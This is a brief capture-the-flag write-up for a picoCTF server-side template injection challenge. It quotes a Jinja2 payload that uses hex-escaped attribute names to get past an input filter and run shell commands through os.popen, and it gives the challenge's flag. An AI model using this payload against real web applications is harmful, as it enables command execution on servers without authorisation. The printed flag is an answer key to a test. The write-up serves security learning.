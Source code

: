 # URL
https://play.picoctf.org/practice/challenge/488?page=1&search=sst
# Challenge
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.

# Method of Solving
* I know the website runs jinja2 since the input {{7*'7'}} yields 7777777
* With this knowledge, I searched up SSTI Jinja injections, which led me to this website https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
* On the website lies a payload we can test: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
* This payload returns the UID, which is root, so the website's way of bypassing the WAF worked!
* All I had to do was change the value "id" into "cat flag", which resulted in the flag being printed on the website!
* picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}
